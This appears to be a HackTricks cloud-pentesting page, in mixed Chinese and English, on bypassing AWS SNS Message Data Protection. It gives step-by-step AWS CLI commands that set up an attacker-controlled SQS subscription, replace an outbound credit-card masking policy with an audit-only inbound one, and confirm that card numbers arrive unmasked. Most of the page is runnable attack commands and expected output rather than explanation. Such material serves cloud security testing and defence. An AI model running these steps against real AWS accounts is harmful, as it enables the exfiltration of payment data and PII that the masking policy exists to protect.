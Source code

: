 # AWS - SNS Message Data Protection Bypass via Policy Downgrade

{{#include ../../../../banners/hacktricks-training.md}}

如果你对某个 topic 拥有 `sns:PutDataProtectionPolicy`，你可以将其 Message Data Protection 策略从 Deidentify/Deny 切换为 Audit-only（或移除 Outbound 控制），使敏感值（例如信用卡号）以未修改的形式发送到你的订阅。

## Requirements
- 目标 topic 上调用 `sns:PutDataProtectionPolicy` 的权限（通常还需 `sns:Subscribe`，如果你想接收数据）。
- 标准 SNS topic（支持 Message Data Protection）。

## Attack Steps

- Variables

```bash
REGION=us-east-1
```

1) Create a standard topic and an attacker SQS queue, and allow only this topic to send to the queue

```bash
TOPIC_ARN=$(aws sns create-topic --name ht-dlp-bypass-$(date +%s) --region $REGION --query TopicArn --output text)
Q_URL=$(aws sqs create-queue --queue-name ht-dlp-exfil-$(date +%s) --region $REGION --query QueueUrl --output text)
Q_ARN=$(aws sqs get-queue-attributes --queue-url "$Q_URL" --region $REGION --attribute-names QueueArn --query Attributes.QueueArn --output text)

aws sqs set-queue-attributes --queue-url "$Q_URL" --region $REGION --attributes Policy=Version:2012-10-17
```

2) Attach a data protection policy that masks credit card numbers on outbound messages

```bash
cat > /tmp/ht-dlp-policy.json <<'JSON'
{
"Name": "__ht_dlp_policy",
"Version": "2021-06-01",
"Statement": [{
"Sid": "MaskCCOutbound",
"Principal": ["*"],
"DataDirection": "Outbound",
"DataIdentifier": ["arn:aws:dataprotection::aws:data-identifier/CreditCardNumber"],
"Operation": { "Deidentify": { "MaskConfig": { "MaskWithCharacter": "#" } } }
}]
}
JSON
aws sns put-data-protection-policy --region $REGION --resource-arn "$TOPIC_ARN" --data-protection-policy "$(cat /tmp/ht-dlp-policy.json)"
```

3) Subscribe attacker queue and publish a message with a test CC number, verify masking

```bash
SUB_ARN=$(aws sns subscribe --region $REGION --topic-arn "$TOPIC_ARN" --protocol sqs --notification-endpoint "$Q_ARN" --query SubscriptionArn --output text)
aws sns publish --region $REGION --topic-arn "$TOPIC_ARN" --message payment:{cc:4539894458086459}
aws sqs receive-message --queue-url "$Q_URL" --region $REGION --max-number-of-messages 1 --wait-time-seconds 15 --message-attribute-names All --attribute-names All
```

Expected excerpt shows masking (hashes):
```json
"Message" : "payment:{cc:################}"
```
4) 将策略降级为仅审核 (no deidentify/deny statements affecting Outbound)

对于 SNS，Audit 语句必须是 Inbound。将策略替换为仅审核的 Inbound 语句会移除任何对 Outbound 的去标识化，因此消息会以未修改的形式流向订阅者。
```bash
cat > /tmp/ht-dlp-audit-only.json <<'JSON'
{
"Name": "__ht_dlp_policy",
"Version": "2021-06-01",
"Statement": [{
"Sid": "AuditInbound",
"Principal": ["*"],
"DataDirection": "Inbound",
"DataIdentifier": ["arn:aws:dataprotection::aws:data-identifier/CreditCardNumber"],
"Operation": { "Audit": { "SampleRate": 99, "NoFindingsDestination": {} } }
}]
}
JSON
aws sns put-data-protection-policy --region $REGION --resource-arn "$TOPIC_ARN" --data-protection-policy "$(cat /tmp/ht-dlp-audit-only.json)"
```

5) 发布相同的消息并验证未掩码的值已被传递
```bash
aws sns publish --region $REGION --topic-arn "$TOPIC_ARN" --message payment:{cc:4539894458086459}
aws sqs receive-message --queue-url "$Q_URL" --region $REGION --max-number-of-messages 1 --wait-time-seconds 15 --message-attribute-names All --attribute-names All
```
预期输出片段显示明文信用卡号:
```text
4539894458086459
```
## 影响
- 将一个 topic 从 de-identification/deny 切换为 audit-only（或以其他方式移除 Outbound 控制）会允许 PII/secrets 原样通过到攻击者控制的 subscriptions，从而实现本应被掩盖或阻止的数据外泄。

{{#include ../../../../banners/hacktricks-training.md}}
